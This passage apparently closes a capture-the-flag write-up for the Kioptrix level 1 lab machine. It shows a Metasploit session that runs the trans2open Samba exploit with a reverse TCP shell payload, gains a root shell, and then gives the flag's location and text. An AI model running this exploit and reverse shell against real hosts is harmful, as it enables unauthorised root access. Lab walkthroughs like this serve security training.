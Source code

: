 ``` plain
msf exploit(trans2open) > set RHOST 192.168.127.153
RHOST => 192.168.127.153
msf exploit(trans2open) > set payload linux/x86/shell_reverse_tcp 
payload => linux/x86/shell_reverse_tcp
msf exploit(trans2open) > set LHOST 192.168.127.159
LHOST => 192.168.127.159
msf exploit(trans2open) > exploit

[*] Started reverse handler on 192.168.127.159:4444 
[*] Trying return address 0xbffffdfc...
[*] Trying return address 0xbffffcfc...
[*] Trying return address 0xbffffbfc...
[*] Trying return address 0xbffffafc...
[*] Trying return address 0xbffff9fc...
[*] Command shell session 1 opened (192.168.127.159:4444 -> 192.168.127.153:1047) at 2014-06-13 00:31:15 +0300
[*] Command shell session 2 opened (192.168.127.159:4444 -> 192.168.127.153:1048) at 2014-06-13 00:31:15 +0300

whoami
root
```

There is a flag present on this machine, which is located here:

<code>/var/spool/mail/root</code>

> If you are reading this, you got root. Congratulations.
> Level 2 won't be as easy...


And this was the first level in the Kioptrix series. Here's a cookie till next time:

> You're a card which will have to be dealt with.


